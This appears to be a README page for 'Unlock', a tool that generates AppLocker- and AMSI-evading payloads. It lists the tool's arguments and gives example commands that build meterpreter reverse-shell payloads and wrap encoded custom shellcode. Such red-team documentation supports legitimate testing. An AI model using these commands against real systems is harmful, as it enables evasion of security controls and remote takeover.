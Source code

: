 ```yaml
---
description: Microsoft Applocker evasion tool
---
```


# Unlock applocker

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction. The code is heavily based on subtee work.

Link: [https://github.com/freshness79/unlock/blob/master/README.md](https://github.com/freshness79/unlock/blob/master/README.md)



### Usage

unlock.py \[-h\] \[--output FILENAME\] \[--framework FWV\] \[--payload PAYLOAD\] \[--lhost LHOST\] \[--lport LPORT\] \[--method METHOD\] \[--enaobf\] \[--encshell ENCSHELL\] \[--custom CUSTOM\] \[--x64\] \[--noamsi\]

### Arguments:

--output FILENAME Output file name without extension  
--framework FWV Framework NET version  
--payload PAYLOAD Payload in MSF syntax  
--lhost LHOST Local host for reverse shell  
--lport LPORT Local port for reverse shell  
--method METHOD Evasion method: msbuild or installUtil  
--enaobf Enable CS code obfuscation  
--encshell ENCSHELL Encode shell with: yyyymmdd, yyyymm, hostname, or domain  
--enctext TEXT Text to xorencode payload with, used with hostname or domain  
--custom CUSTOM Custom binary payload \(don't use with --payload/--lhost/--lport\)  
--x64 Set if your custom payload is x64  
--noamsi Add code to bypass AMSI

### Notes

* everything but msbuild on framework 4.0 is untested

### Examples

* python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse\_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil
* python unlock.py --framework 4.0 --payload windows/meterpreter/reverse\_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild
* python unlock.py --framework 4.0 --custom shellcode.bin --x64
* python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell yyyymm --noamsi
* python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell hostname --enctext SECRETARY
* python unlock.py --framework 4.0 --custom shellcode.bin --x64 --encshell domain --enctext CONTOSO



